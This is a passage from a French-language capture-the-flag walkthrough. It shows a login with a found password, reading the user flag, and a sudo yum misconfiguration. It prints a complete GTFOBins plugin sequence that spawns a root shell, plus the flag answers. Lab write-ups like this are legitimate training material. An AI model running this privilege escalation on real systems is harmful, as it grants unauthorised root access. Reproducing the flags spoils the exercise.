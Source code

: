 Essayons de se connecter avec l'utilsiateur **jameson** et le mot de passe **nv5uz9r3ZEDzVjNu**
Holé ! ca a fonctionné !

On va allors aller dans le fichier de l'utilisateur jjameson
```
cd /home/jjameson/

ls 

user.txt 

cat user.txt 

27a260fe3cba712cfdedb1c86d80442e
```
Et voila, le flag de l'user

Réponse 4 : **27a260fe3cba712cfdedb1c86d80442e**

## What is the root flag?

En tapant la commande sudo -l on s'apperçoit que l'utilisateur à les permissions suivantes
```
sudo -l

(ALL) NOPASSWD: /usr/bin/yum
```
*HINT* S'aider de GTOBins --> Go

On va sur GTFOBins et on rehcerche yum

On suit les instruction pour sudo :

```
Générez un shell root interactif en chargeant un plugin personnalisé.

TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
BOOM ! We are ROOT !
